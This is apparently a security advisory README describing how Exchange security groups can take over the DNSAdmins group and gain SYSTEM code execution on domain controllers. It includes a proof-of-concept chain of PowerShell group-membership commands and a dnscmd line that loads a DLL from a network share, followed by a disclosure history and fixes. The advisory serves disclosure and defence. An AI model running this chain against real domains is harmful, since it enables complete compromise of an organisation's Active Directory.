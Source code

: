 ## DNSAdmins group DACL privilege escalation

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) 
and from the **Exchange Trusted Subsystem** security groups to control the DNSAdmins group and then compromise the entire prepared Active Directory domain.
This second part was described in [this work from Shay Ber](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) in 2017

As a matter of fact, any security group inheriting its DACL from the Domain Object can be controlled in this way. The ones giving a privilege escalation to Domain Admins are usually protected by AdminSDHolder, though the DNSAdmins group is not.

DISCLAIMER: This issue has been responsibly disclosed to MSRC in November 2018 and after a few back and forth emails, they closed the case.
Basically, they could not reproduce the issue in their testing environments. 
However, the DACL of the incriminated object on their side appears to be quite different from the DACL that I observed in several live production AD domains: MSRC side DACL has a few *Deny* ACEs explicitely positioned for the incriminated Exchange security groups, where production side has only *Allow* ACEs. Not to mention *Deny* ACEs are bad practice for a case where *Allow* ACEs should just be removed.


From there, I can only speculate that either they have an unreleased fix on their testing environments, or their path of Exchange deployment on AD is different
from what is commonly observed on live domains, which are upgraded and not redeployed on CU releases. If the aformentioned *Deny* ACEs are set on your environment, it is probably *NOT* vulnerable.


* Description of the issue

In up-to-date deployments of Exchange 2016 in Shared permissions (default) or RBAC split permissions, three controlling ACEs are positioned on the "CN=DNSAdmins,CN=Users" group for the **Exchange Windows Permissions** 
and for the **Exchange Trusted Subsystem** security groups. They are inherited from the Domain Object, two of them are documented, the ETS one is not.

This undocumented ACE is probably positioned during an update or a particular CU install. I have been confirmed it exists on other organizations production environments. This is their SDDL representation:

```
(OA;CIID;WP;bf9679c0-0de6-11d0-a285-00aa003049e2;;<SID of EWP>)
(OA;CIID;WP;0296c120-40da-11d1-a9c0-0000f80367c1;;<SID of EWP>)
(OA;CIID;WD;;bf967a9c-0de6-11d0-a285-00aa003049e2;<SID of ETS>)
```

Which translates into:

| Account | ACE type | Inheritance | Permissions | On property/ Applies to | Comments |
| ------- | -------- | ----------- | ----------- | ----------------------- | -------- |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | ManagedBy / | |
| Exchange Windows Permissions | Allow ACE | All | WriteProp | Member / | |
| Exchange Trusted Subsystem | Allow ACE | All | WriteDACL | / Group | |


* Technical consequence

Any member of Exchange Windows Permissions can add members to DNSAdmins. 

![EWP effective access](DNSAdmins_EWP.png "EWP effective access")


Any member of Exchange Trusted Subsystem can modify DNSAdmins DACL to grant himself permission to add members to it.

![ETS effective access](DNSAdmins_ETS.png "ETS effective access")

The DNSAdmins group has a particular privilege to remotely load DLLs on domain controllers in the SYSTEM context (by design, as MSRC case 38121 reported by Shay Ber). 

* Security Consequence

Any member of the Organization Management group can execute code remotely on the domain controllers in the SYSTEM context, taking complete control of the Active Directory domain.

* Proof of concept

1) From an Organization Management member account, add yourself to Exchange Windows Permissions
This is possible by default and normal

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members $user
```

2) LOG OUT AND RELOG THE USERS SESSION to update groups in token

3) Add yourself to DNSAdmins
This is the problem, it should not be possible

```
$id = [Security.Principal.WindowsIdentity]::GetCurrent()
$user = Get-ADUser -Identity $id.User
Add-ADGroupMember -Identity "DNSAdmins" -Members $user
```

4) LOG OUT AND RELOG THE USERS SESSION to update groups in token

5) Choose a domain controller and remotely change a registry key to load a dll (needs specific exports) on next DNS service restart:

```
dnscmd test_domain_controller /config /serverlevelplugindll \\NetworkPath\to\dll
```

* Workaround fix
An elegant way of fixing this problem is including the DNSAdmins group into an AdminSDHolder-protected group.

Alternatively, use the Fix-DNSAdmins-DACL.ps1 Powershell script in this repository. Read it, test it, use it at your own risk.

By default, it checks the three faulty ACEs, this can be done by any user. Use with -Fix switch with Domain Admins privileges will break DACL inheritance on this group and remove the three ACEs.

To revert, simply reenable DACL inheritance.

Alternatively, it can be done manually with LDP: bind as a Domain Admin account with the usual precautions, as you will change the DNSadmins group DACL.

Backup the DACL: 

```
(Get-Acl "AD:\CN=DNSAdmins,CN=Users,DC=...").Sddl | Out-File "dnsadmins_dacl.txt"
```

Locate the "CN=DNSAdmins,CN=Users,DC=..." security group. Disable ACE inheritance and choose to copy existing ACEs. Locate and delete the 3 faulty ACE in the DACL: you can sort by Trustee to see Exchange Windows Permissions and Exchange Trusted Subsystem.


